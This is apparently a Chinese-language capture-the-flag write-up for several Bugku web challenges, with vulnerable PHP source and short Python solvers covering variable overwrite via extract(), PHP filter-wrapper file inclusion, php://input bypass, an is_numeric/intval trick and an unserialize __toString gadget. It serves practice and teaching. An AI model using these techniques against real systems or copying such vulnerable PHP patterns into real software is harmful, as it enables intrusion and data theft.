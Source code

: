 #### [web1](http://123.206.31.85:10001/)
```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
include 'flag.php';
$b='ssAEDsssss';
extract($_GET);
if(isset($a)){
	$c=trim(file_get_contents($b));
	if($a==$c){
		echo $myFlag;
	}else{
		echo '继续努力，相信flag离你不远了';
	}
}
?>
```
看到extract就知道是变量覆盖，c经过trim就已经变成空了，所以传个a=空就行了，payload：?a=


#### [流量分析](https://new.bugku.com/upload/流量分析.rar)
打开发现好多telnet流量包，追踪TCP流就直接看到flag了


#### [web11](http://123.206.31.85:3030/)
标签写的robots，于是去看下，发现shell.php，打开是一个计算md5的，写个脚本爆破一下提交就得到flag了
```python
import hashlib

key = '8d71ad'

for i in range(1, 100000000):
    result = hashlib.md5(str(i).encode('utf-8')).hexdigest()
    if result[0:6] == key:
        print(i)
    i += 1
```

#### [web13](http://123.206.31.85:10013/)

F12审查元素，发现Headers里有个Password是base64加密的字符串，拿去解密后发现是个flag，但这貌似是假的，然后将flag里的值提交，返回了 “Can you do it faster? you cost [9874371] msec” ，那这道题和实验吧有道天下武功唯快不破有点像了，代码改下flag就出来了...

```python
import requests
import base64

s = requests.Session()
r = s.post('http://123.206.31.85:10013/index.php')
key = r.headers['Password']
flag = base64.b64decode(key).decode()[5:-1]
# print(flag)
para = {'password': flag}
r = s.post('http://123.206.31.85:10013/index.php', data=para)
print(r.text)
```



#### web20 [http://123.206.31.85:10020/](http://123.206.31.85:10020/)
写脚本跑就是了，和上面那道题差不多，但这道题有点迷，返回的密文居然与之前的密文最后一位有点变化，导致不一样也就出不了flag，但多跑几次就能出了...
```python
import requests
import re

s = requests.Session()
url = 'http://123.206.31.85:10020'
text = s.get(url).text
key = re.findall('[A-Za-z0-9]+', text)[0]
print(text)
print(key)

flag = s.get(url + '?key=' + key).text

print(flag)
```



#### [Web25](http://123.206.31.85:10025/)

鬼知道这是什么，点下载，发现下载失败，链接 http://123.206.31.85:10025/2/ziidan.txt 还404，然后试下把目录2去了，就发现了一些字典：
![](https://i.loli.net/2019/04/27/5cc3f4093abd2.jpg)

还发现了shell.php，把这些字典一个一个提交上去看看，最后一个就出flag了...


#### web3 [http://123.206.31.85:10003](http://123.206.31.85:10003)
![](https://i.loli.net/2019/04/28/5cc4831811be0.png)
上传了个图片发现什么都没有...
![](https://i.loli.net/2019/04/28/5cc483949bf9b.png)
回到主页面改改这里参数试试，改成index
![](https://i.loli.net/2019/04/28/5cc483e911acf.png)
页面正常但没回显，推测是文件包含，于是用伪协议试试：
![](https://i.loli.net/2019/04/28/5cc484ed0f3ff.png)

再base64解密就是flag了...


#### vim编辑器 [web15](http://123.206.31.85:10015/1ndex.php)

审查下元素，发现有个hint

![](https://i.loli.net/2019/05/04/5ccd49aa2d1a3.png)

拿去解密base16、32、64解下来是 `vim~` ，然后拿去百度查查，发现vim备份文件：

![](https://i.loli.net/2019/05/04/5ccd4d19e4193.png)

然后访问 `index.php~` 就得到了它的源代码了：

```php
<?php
header('content-type:text/html;charset=utf-8');
include './flag.php';
error_reporting(0);
if(empty($_GET['id'])){
    header('location:./1ndex.php');
}else{
	$id = $_GET['id'];
	if (!is_numeric($id)) {
		$id = intval($id);
		switch ($id) {
			case $id>=0:
				echo "快出去吧，走错路了～～～<br>";
				echo "这么简单都不会么？";
				break;
			case $id>=10:
				exit($flag);
				break;
			default:
				echo "你走不到这一步的!";
				break;
		}
	}
}

?>
```
传入的id不能是数字或数字字符串，所以传入数字字符串里带字母或其它符号则能让 `is_numeric` 判断为false，而intval则会取整，如果是纯字符串或字符串第一位为字母或符号则会返回0，如果是数字+字母或符号的字符串则会返回第一个字母或符号左侧的数字，所以构造这样的payload就能绕过了：

![](https://i.loli.net/2019/05/04/5ccd5c468a699.png)

![](https://i.loli.net/2019/05/04/5ccd5cb9bafc1.png)


#### [web21](http://123.206.31.85:10021/)

搜了下这貌似是是16年xctf的一道题...

F12能看到一段源码：

```php
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```
这道题首先要绕过第一个if，这里用 `php://input` 能读到post提交的数据（参考：[file_get_contents("php://input")](https://blog.51cto.com/taoshi/1165499)

然后用php伪协议`php://filter/convert.base64-encode/resource=class.php`来读取 `class.php` 的内容：

![](https://i.loli.net/2019/05/10/5cd53ea643e5e.png)

```php
// class.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>
```

还有 `index.php` ：

![](https://i.loli.net/2019/05/10/5cd53f11730e1.png)

```php
// index.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/f1a9/",$file)){
        exit();
    }else{
        include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
}
 
?>
```

这里就能看出是要通过反序列化`$pass`来得到flag，而flag在`f1a9.php`文件里，正则匹配在这里会把它过滤了，所以没法直接读，而从`class.php`中可以知道`__toString()`这个魔法函数可以读取文件内容，这个函数会在输出对象时自动被调用，所以就可以构造序列化对象了：

![](https://i.loli.net/2019/05/10/5cd542bb03d4a.png)

可以看到在输出反序列化对象时`__toString()`这个函数就被调用了，所以传入构造的序列化对象就得到flag了：

![](https://i.loli.net/2019/05/10/5cd552b45e5ac.png)










